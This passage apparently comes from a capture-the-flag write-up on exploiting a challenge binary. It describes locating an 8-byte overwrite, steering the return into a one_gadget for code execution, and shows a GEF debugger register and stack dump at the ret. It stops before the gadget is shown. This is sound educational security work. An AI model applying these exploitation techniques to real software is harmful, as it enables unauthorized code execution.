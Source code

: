 The replacement location will change depending on the key, so input plain text such as `0123456789abcdef` and check the replacement location and adjust.

Since only 8 bytes can be written, you need to connect to code execution with one_gadget or COP. (I think it is possible to write multiple ROPs, but it was not necessary this time.) 

The situation when returning is as follows. There are heap addresses in good locations that can be controlled as is, but this time I found a good one in one_gadget.

```
───────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x00007ffce787ce38  →  0xcccccccccccccccc
$rdx   : 0x00006353c4dcd3e0  →  0xcccccccccccccccc
$rsp   : 0x00007ffce787ce88  →  0xdfaddaeeeebeedfb
$rbp   : 0x00007ffce787cf30  →  0x00007ffce787cf90  →  0x0000000000000001
$rsi   : 0xf               
$rdi   : 0x00007ffce787ce38  →  0xcccccccccccccccc
$rip   : 0x00006353c41325d6  →   ret 
$r8    : 0x00006353c4dcd3e0  →  0xcccccccccccccccc
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x00007cc03a3bf3c0  →  0x0002000200020002
$r12   : 0x00007ffce787d0a8  →  0x00007ffce787f2d8  →  "./challenge"
$r13   : 0x00006353c41326c6  →   endbr64 
$r14   : 0x00006353c4134d88  →  0x00006353c41321e0  →   endbr64 
$r15   : 0x00007cc03a577040  →  0x00007cc03a5782e0  →  0x00006353c4131000  →   jg 0x6353c4131047
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
───────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffce787ce88│+0x0000: 0xdfaddaeeeebeedfb   ← $rsp
0x00007ffce787ce90│+0x0008: 0x0000000000000007
0x00007ffce787ce98│+0x0010: 0x00006353c4dcd3e0  →  0xcccccccccccccccc
0x00007ffce787cea0│+0x0018: 0x00006353c4dcd3c0  →  0xbeefbeefdeaddead
0x00007ffce787cea8│+0x0020: 0x00006353c4dcd3a0  →  0x00000000000000b0
0x00007ffce787ceb0│+0x0028: 0x00006353c4dcd380  →  0x0000000000000000
0x00007ffce787ceb8│+0x0030: 0x00000001c4135020
0x00007ffce787cec0│+0x0038: "kalmar{fake_flag_for_testing_:)}"
─────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x6353c41325cc                  call   0x6353c41320f0 <__stack_chk_fail@plt>
   0x6353c41325d1                  mov    rbx, QWORD PTR [rbp-0x8]
   0x6353c41325d5                  leave  
●→ 0x6353c41325d6                  ret    
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "challenge", stopped 0x6353c41325d6 in ?? (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x6353c41325d6 → ret 
────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```
The one_gadget is I used is this. rdx is the ciphertext that will be output, so you can adjust it with the key.
